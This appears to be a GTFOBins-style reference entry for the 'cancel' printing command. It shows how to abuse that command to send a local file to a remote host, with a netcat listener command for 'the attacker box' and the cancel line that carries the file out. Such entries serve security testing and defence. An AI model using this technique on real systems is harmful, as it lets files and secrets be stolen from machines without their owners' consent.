 ```yaml
---
functions:
  file-upload:
    - description: Send local file using a TCP connection. Run `nc -l -p 4444 > "file_to_save"` on the attacker box to collect the file.
      code: |
        cancel -u "$(cat $LFILE)" -h $RHOST:$RPORT
---
```

